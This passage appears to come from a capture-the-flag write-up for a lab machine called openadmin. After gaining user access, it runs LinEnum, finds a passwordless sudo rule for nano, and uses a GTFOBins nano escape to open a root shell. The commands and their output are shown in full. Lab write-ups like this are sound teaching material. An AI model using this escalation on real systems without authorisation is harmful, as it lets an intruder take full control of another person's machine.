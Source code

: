Great, we have the user proof.

Time for a root privesc.

Let's run `LinEnum.sh` again now that we have the `joanna` user owned.


```bash
...
[+] We can sudo without supplying a password!
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv


[+] Possible sudo pwnage!
/bin/nano
...
```

Let's try using this trick from [GTFObins](https://gtfobins.github.io/gtfobins/nano/) to start a shell from nano, with root privileges.

```bash
$ sudo -u root nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
# whoami
root
# wc /root/root.txt
 1  1 33 /root/root.txt
```
